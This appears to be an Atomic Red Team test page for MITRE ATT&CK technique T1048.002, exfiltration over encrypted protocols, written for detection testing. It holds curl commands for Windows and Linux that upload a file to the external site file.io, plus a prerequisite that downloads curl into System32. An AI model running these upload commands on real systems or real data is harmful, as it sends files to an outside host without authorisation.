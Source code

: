 # T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)
<blockquote>Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin. 

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl windows](#atomic-test-1---exfiltrate-data-https-using-curl-windows)

- [Atomic Test #2 - Exfiltrate data HTTPS using curl linux](#atomic-test-2---exfiltrate-data-https-using-curl-linux)


<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows


**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | Path | PathToAtomicsFolder/T1048.002/src/artifact|
| curl_path | path to curl.exe | Path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile $env:temp\curl.zip
Expand-Archive -Path $env:temp\curl.zip -DestinationPath $env:temp\curl
Copy-Item $env:temp\curl\curl-7.79.1-win64-mingw\bin\curl.exe C:\Windows\System32\Curl.exe
Remove-Item $env:temp\curl
Remove-Item $env:temp\curl.zip
```




<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl linux
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | Path | PathToAtomicsFolder/T1048.002/src/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>
